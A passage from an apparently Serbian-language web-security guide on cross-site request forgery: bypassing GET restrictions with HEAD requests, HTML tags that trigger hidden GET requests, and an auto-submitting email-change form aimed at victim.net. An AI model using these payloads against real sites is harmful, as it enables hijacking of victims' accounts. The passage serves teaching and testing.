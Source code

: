 ### **Bypassovanje metode HEAD**

Prvi deo [**ovog CTF rešenja**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) objašnjava da [Oak-ov izvorni kod](https://github.com/oakserver/oak/blob/main/router.ts#L281), ruter je podešen da **obradi HEAD zahteve kao GET zahteve** bez tela odgovora - uobičajeni trik koji nije jedinstven za Oak. Umesto specifičnog rukovaoca koji se bavi HEAD zahtevima, oni se jednostavno **prosleđuju GET rukovaocu, ali aplikacija jednostavno uklanja telo odgovora**.

Dakle, ako je GET zahtev ograničen, možete jednostavno **poslati HEAD zahtev koji će biti obrađen kao GET zahtev**.

## **Primeri eksploatacije**

### **Izvlačenje CSRF tokena**

Ako se **CSRF token** koristi kao **odbrana**, možete pokušati da ga **izvučete** zloupotrebom [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) ranjivosti ili [**Dangling Markup**](dangling-markup-html-scriptless-injection/) ranjivosti.

### **GET korišćenjem HTML tagova**

```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

Drugi HTML5 tagovi koji se mogu koristiti za automatsko slanje GET zahteva su:

```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">
```

### Zahtev za dobijanje forme

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```